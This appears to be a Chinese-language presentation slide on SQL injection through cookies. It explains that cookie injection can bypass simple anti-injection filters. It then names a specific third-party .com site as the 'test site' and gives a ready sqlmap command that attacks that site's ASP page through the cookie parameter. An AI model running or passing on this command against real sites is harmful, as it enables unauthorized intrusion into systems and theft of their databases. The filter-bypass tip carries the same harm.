

# COOKIE注入
cookie提交用于账号密码的cookie缓存
还可以通过cookie注入来突破简单的防注入系统

测试站点：
http://www.jnrcjt.com/onepage3.asp?id=30
sqlmap.py -u http://www.jnrcjt.com/onepage3.asp --cookie "id=30" --level 2